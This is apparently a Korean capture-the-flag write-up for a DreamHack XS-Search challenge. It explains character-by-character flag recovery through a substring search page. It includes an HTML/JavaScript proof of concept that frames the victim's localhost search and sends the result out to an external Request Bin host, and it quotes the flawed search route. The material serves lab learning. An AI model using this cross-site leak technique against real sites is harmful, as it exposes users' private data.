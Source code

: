 ```python
        # return str(e)
        return False
    driver.quit()
    return True
```
read_url() 함수는 이렇게 생겼는데 인자로 받은 url에 접근하여 접근 상태에 따라서 Boolean 값을 리턴한다.
## 최종 풀이
코드와 웹사이트를 전체적으로 분석해봤을 때, 문제 제목에 나와있듯이 XS-Search 취약점이 존재한다는 것을 알 수 있다.<br />
/search 페이지에서 검색을 할 때에 정확하게 해당 노트의 이름을 입력할 필요 없이 그냥 검색어가 note 제목에 포함이 됐냐 아니냐를 판단하기 때문에 예를 들어 "D"라고만 입력해도 "DreamHack" 노트를 화면에 출력한다.<br />

즉, 로컬호스트로 /search에 접근하여 플래그 노트의 제목을 하나씩 확인할 수 있다는 것이다.<br />
만약 플래그 노트의 값이 DH{abcd}라고 한다면 DH{a, DH{aa, DH{ab, 이런식으로 한 글자 한 글자 비교하면서 원래의 플래그를 알아낼 수 있다는 것이다.<br />
### 어떻게 플래그가 검색됐다는 것을 알아낼까?
여기서 다양한 방법이 쓰일 수 있다.<br />
단순하게 화면에 "not found"가 출력되지 않은 것을 가지고 판단을 할 수도 있고 iframe이 있냐 없냐로 판단을 할 수도 있다.<br />

여기서는 iframe의 여부 판단 방식을 사용할 것이다.<br />
### iframe 여부 판단 테스트
```html
<iframe id="iframe"></iframe>
<img id="img">

<script>
    var iframe = document.getElementById("iframe");
    iframe.src = "https://127.0.0.1:8000/search?query=DreamHack";

    iframe.onload = () => {
        var num = iframe.contentWindow.frames.length;
        img.src = `https://oydpwsg.request.dreamhack.games/${num}`
    }
</script>
```
해당 코드를 서버에 올리고 그 서버의 URL 주소를 /submit 페이지에 제출하면 드림핵의 Request Bin에서 1이라는 숫자를 리턴받을 수 있다. 1이라는 것은 iframe 창의 개수이고 쿼리 값을 "DreamHack"으로 설정했기 때문에 검색에 성공하여 노트가 출력됐다는 의미이다.<br />
### 자동화 프로그램으로 최종 플래그 알아내기
내가 직접 구현하기에는 좀 귀찮에서 드림핵에서 제공하는 코드를 사용하였다.<br />
해당 코드는 [여기](https://learn.dreamhack.io/338#5)에서 확인할 수 있다.<br />

코드를 실행하면 시간이 좀 걸리지만 모든 과정이 끝나고 Request Bin을 확인해보면 플래그 값을 확인할 수 있다.
## 또 다른 풀이
```python
@app.route('/search')
def search():
    query = request.args.get('query', None)
    if query == None:
        return render_template("search.html", query=None, result=None)
    for note, private in notes:
        if private == True and request.remote_addr != "127.0.0.1" and request.headers.get("HOST") != "127.0.0.1:8000":
            continue
        if query != "" and query in note:
            return render_template("search.html", query=query, result=note)
    return render_template("search.html", query=query, result=None)
```
/search 라우터를 다시 살펴보면 private 노트를 처리하는 부분이 좀 이상하다는 것을 알 수 있다.<br />
